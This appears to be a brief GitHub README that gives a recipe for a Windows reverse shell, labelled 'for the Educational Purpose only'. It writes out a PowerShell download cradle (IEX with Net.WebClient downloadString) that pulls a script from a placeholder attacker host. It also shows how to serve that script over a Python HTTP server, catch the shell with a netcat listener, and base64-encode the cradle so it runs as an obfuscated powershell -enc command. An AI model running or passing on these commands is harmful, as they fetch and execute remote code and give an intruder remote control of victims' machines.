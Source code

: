 # Windows Reverse shell 
Try this out for the Educational Purpose only ..

```language
nano touch.ps1
nano cradle
cradle content:- IEX(New-Object Net.WebClient).downloadString("http://attacker_ip:8000")

python3 -m http.server 8000

rlwrap nc -lvnp 9001

cat cradle | iconv -t utf-16le | base64 -w0; echo

powershell -enc <encoded_code>
```
